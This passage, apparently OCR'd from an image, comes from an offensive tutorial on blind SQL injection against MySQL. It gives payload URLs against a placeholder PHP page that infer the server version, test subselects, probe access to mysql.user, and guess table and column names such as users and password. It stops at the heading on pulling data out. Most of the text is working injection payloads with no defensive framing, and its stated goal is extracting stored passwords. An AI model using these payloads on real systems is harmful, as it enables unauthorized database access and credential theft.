 To get the version of MySQL in a blind attack we use substring
```
http://mysite/products.php?id=5 and substring(@@version,1,1)=4
```
This should return TRUE if the version of MySQL is version 4, if we wanted to check if the version war running version 5 we simply replace 4 with 5, and if query return TRUE then version 5 is being used.
```
http://mysite/products.php?id=5 and substring(@@version,1,1)=5
```

### 2. Testing if Subselect Works

When select doesn't work then we can use subselect
```
http://mysite/products.php?id=5 and (select 1)=1
```
If page loads normally then subselects works.


Next let's see if we have access to mysql.user, this is typically were usernames and passwords are stored
```
http://mysite/products.php?id=5 and (select 1 from mysql.user limit 0,1)=1
```
If the page loads normally we have access to mysql.user, later we can pull passwords using the load_file() function and OUTFILE.

### 3. Checking The Table and Column Names

Checking for the table and column names involves a little bit of guess work, let's look at the finding the tables first.
```
http://mysite/products.php?id=5 and (select 1 from users limit 0,1)=1 (with limit 0,1 our query here returns 1 row of data, cause subselect returns only 1 row, this is very important.)
```
If the page loads normally without content missing, then we know the table users exits.
if you get some missing articles then the result was FALSE and we need to continue guessing the table name until we guess the right one.

Let's say that we found a table called users, now all we need to do is find the column name.

Following the same process as the table name we start by guessing the name of the column. 
As previously mentioned try to look for common column names, here we will try the column name password as an example.
```
http://mysite/products.php?id=5 and (select substring(concat(1,password),1,1) from users limit 0,1)=1
```
If the page loads normally we know that column name is password, if the result was FALSE then we continue guessing until we find the right one.

Here we merge 1 with the column password and the substring returns the first character (,1,1)


### 4. Pulling Data From The Database
